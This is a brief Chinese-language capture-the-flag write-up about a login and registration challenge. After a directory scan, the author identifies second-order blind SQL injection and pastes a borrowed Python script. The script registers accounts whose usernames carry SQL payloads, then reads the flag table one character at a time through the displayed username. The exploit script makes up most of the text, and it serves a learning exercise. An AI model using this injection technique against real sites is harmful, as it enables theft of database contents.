

是一个登录界面，随便输入一下登录，发现页面只会输出用户名和密码错误那就看看有没有其他的目录

用dirsearch扫一下目录，发现有config.php和register.php，分别访问一下发现只要register.php是可以访问的





经典的注册页面

参考了wp后发现是二次注入+盲注

直接挪一下脚本放着，以后学了二次盲注再返回了做这道题

```php
import requests
import re

sess = requests.Session()

url = "http://27.25.151.48:8308/"
target = ""
i = 0
for j in range(45):
    i += 1
    # payload="0'+ascii(substr((database()) from {} for 1))+'0;".format(i)
    payload = "0'+ascii(substr((select * from flag) from {} for 1))+'0;".format(i)

    register = {'email': '12{}3@qq.com'.format(i), 'username': payload, 'password': 123456}
    login = {'email': '12{}3@qq.com'.format(i), 'password': 123456}

    r1 = sess.post(url=url + 'register.php', data=register)
    r2 = sess.post(url=url + 'login.php', data=login)
    r3 = sess.post(url=url + 'index.php')
    content = r3.text

    # 捕捉ascii码
    con = re.findall('<span class="user-name">(.*?)</span>', content, re.S | re.M)
    a = int(con[0].strip())
    target += chr(a)
    print("\r" + target, end="")
```
